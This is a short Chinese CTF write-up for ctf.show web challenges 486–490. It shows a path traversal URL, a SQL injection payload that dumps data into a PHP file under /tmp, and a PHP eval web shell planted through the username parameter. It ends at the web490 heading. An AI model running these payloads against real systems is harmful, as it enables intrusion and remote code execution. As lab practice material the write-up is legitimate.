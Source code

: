 #  前言

这篇wp主要以引导为主，拒绝无脑抄 

# web486

简简单单目录穿越

http://81db964b-a4d8-42eb-bc64-b31e47af7fde.chall.ctf.show:8080/index.php?action=../flag

# web487

首页adction能够读取代码，我读完了所有代码发现只有http://81db964b-a4d8-42eb-bc64-b31e47af7fde.chall.ctf.show:8080/index.php?action=../index里面代码游泳

```
    $username=$_GET['username'];
    $password=$_GET['password'];
    $sql = "select id from users where username = md5('$username') and password=md5('$password') order by id limit 1";
    echo $sql;
    $user=db::select_one($sql);
    var_dump($user);
```

直接sql注入，因为web目录没有写入权限所以只能写tmp目录下读取

http://81db964b-a4d8-42eb-bc64-b31e47af7fde.chall.ctf.show:8080/index.php?action=../../../../../../../tmp/y11

http://81db964b-a4d8-42eb-bc64-b31e47af7fde.chall.ctf.show:8080/index.php?action=check&username=123') union select flag from flag into dumpfile "/tmp/y11.php"--+&password=123

# web488

先`?action=check&username=<?php eval($_POST[1]);?>&password=1`

再访问`/cache/cb5e100e5a9a3e7f6d1fd97512215282.php`

具体原因不说自己研究

# web489

和488基本上一样存在变量覆盖，因此可以自定义执行sql语句，实现任意登陆，再覆盖username为`<?php eval($_POST[1]);?>`

最后访问`/cache/6a992d5529f459a44fee58c733255e86.php`即可

# web490

第一步
